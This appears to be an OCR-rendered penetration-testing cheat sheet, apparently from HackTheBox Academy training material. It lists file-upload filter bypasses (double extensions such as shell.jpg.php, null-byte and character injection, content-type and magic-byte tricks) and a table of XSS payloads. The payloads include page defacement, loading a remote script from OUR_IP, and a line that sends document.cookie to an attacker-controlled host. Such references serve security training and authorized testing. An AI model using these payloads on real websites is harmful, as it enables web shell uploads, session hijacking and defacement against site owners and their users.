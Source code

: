 | `[PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)` | List of PHP Extensions |

| `[ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)` | List of ASP Extensions |

| `[Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)` | List of Web Extensions |

| `Whitelist Bypass` |  |

| ``shell.jpg.php`` | Double Extension |

| ``shell.php.jpg`` | Reverse Double Extension |

| ``%20, %0a, %00, %0d0a, /, .\, ., …`` | Character Injection - Before/After Extension |

| `Content/Type Bypass` |  |

| `[Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)` | List of Web Content-Types |

| `[Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)` | List of All Content-Types |

| `[File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)` | List of File Signatures/Magic Bytes |

| `Code` | Description |

| ``<script>alert(window.origin)</script>`` | Basic XSS Payload |

| ``<plaintext>`` | Basic XSS Payload |

| ``<script>print()</script>`` | Basic XSS Payload |

| ``<img src="" onerror=alert(window.origin)>`` | HTML-based XSS Payload |

| ``<script>document.body.style.background = "#141d2b"</script>`` | Change Background Color |

| ``<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>`` | Change Back4ground Image |

| ``<script>document.title = 'HackTheBox Academy'</script>`` | Change Website Title |

| ``<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`` | Overwrite website's main body |

| ``<script>document.getElementById('urlform').remove();</script>`` | Remove certain HTML element |

| ``<script src="http://OUR_IP/script.js"></script>`` | Load remote script |

| ``<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`` | Send Cookie details to us |
